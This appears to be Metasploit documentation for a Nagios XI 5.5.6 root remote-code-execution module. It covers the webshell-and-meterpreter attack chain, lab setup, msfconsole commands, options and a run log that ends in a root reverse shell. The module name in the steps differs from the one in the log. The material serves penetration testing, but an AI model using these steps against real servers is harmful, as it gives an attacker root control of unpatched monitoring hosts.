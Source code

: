 ## Vulnerable Application

Nagios XI 5.5.6 Root Remote Code Execution

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server. Therefore, the local HTTPS server must be reachable from outside your private network (except if the Nagios server is in the same network as yours obviously), this is what the RSRVHOST and RSRVPORT options are for. The malicious request allows for file upload. A PHP webshell and a meterpreter executable are uploaded.
- A command is executed thanks to the webshell. This command elevates privileges and run the meterpreter executable, giving us a meterpreter session.

# Creating A Testing Environment

- Install a Ubuntu Linux LTS (I used 18.04 LTS for my tests) in a VM.
- Download Nagios XI 5.5.6 from the official website (https://www.nagios.com/downloads/nagios-xi/older-releases/).
- Follow the official instructions to install it on your Ubuntu VM (https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

# Verification Steps

1. `use exploit/linux/http/nagios_xi_root_rce`
2. `set RHOSTS [IP]`
3. `set RSRVHOST [IP]`
4. `exploit`

A meterpreter session should have been opened successfully and you should be root

## Options

## RSRVHOST

IP at which your local HTTPS can be reached. Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

## RSRVPORT

Port that will forward to your local HTTPS server.

## SRVHOST

IP of your local HTTPS server (must be a local IP).

## SRVPORT

Port to listen to for your local HTTPS server.

# Scenarios

## Nagios 5.5.6 on Ubuntu 18.04 LTS

```
msf5 exploit(linux/http/nagios_xi_magpie_debug) > show options

Module options (exploit/linux/http/nagios_xi_magpie_debug):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  5                no        Number of seconds the web server will wait before termination
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.135.129   yes       The target address range or CIDR identifier
   RPORT      443              yes       The target port (TCP)
   RSRVHOST   172.16.135.1     yes       A public IP at which your host can be reached (e.g. your router IP)
   RSRVPORT   8080             yes       The port that will forward to the local HTTPS server
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.135.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI 5.5.6


msf5 exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.135.1:4444 
msf5 exploit(linux/http/nagios_xi_magpie_debug) > [*] Using URL: https://0.0.0.0:8080/ixFonv2
[*] Local IP: https://192.168.0.21:8080/ixFonv2
[*] Server started.
[*] nZOnJhGnMb.php uploaded with success!
[*] Using URL: https://0.0.0.0:8080/mTwEwHtAuz0V
[*] Local IP: https://192.168.0.21:8080/mTwEwHtAuz0V
[*] Server started.
[*] SQmBobwBzw uploaded with success!
[*] Sending stage (985320 bytes) to 172.16.135.129
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.129:33090) at 2019-06-25 16:13:01 -0500
[+] Deleted /usr/local/nagvis/share/nZOnJhGnMb.php
[+] Deleted /usr/local/nagvis/share/SQmBobwBzw
[!] This exploit may require manual cleanup of '/var/tmp/mtrhbwFZHa.nse' on the target
[*] Server stopped.

msf5 exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 172.16.135.129
OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
